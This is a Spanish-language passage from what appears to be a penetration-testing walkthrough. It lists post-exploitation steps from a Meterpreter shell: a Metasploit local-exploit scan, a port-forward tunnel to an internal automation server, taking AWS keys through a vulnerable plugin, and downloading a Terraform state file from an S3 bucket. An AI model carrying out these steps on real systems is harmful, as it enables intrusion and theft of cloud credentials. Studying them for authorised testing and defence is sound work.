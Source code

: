 8. **Explotación Adicional**:
   - Desde el shell Meterpreter, ejecutar:
     - Escaneo de red: `run post/multi/recon/local_exploit_suggester`
     - Crear un túnel: `portfwd add -l 8080 -r <automation_server_ip> -p 8080`
     - Explotar un plugin vulnerable para obtener claves AWS.
     - Acceder al bucket S3: `aws s3 ls s3://<bucket_name>` y descargar el archivo de estado de Terraform.

---

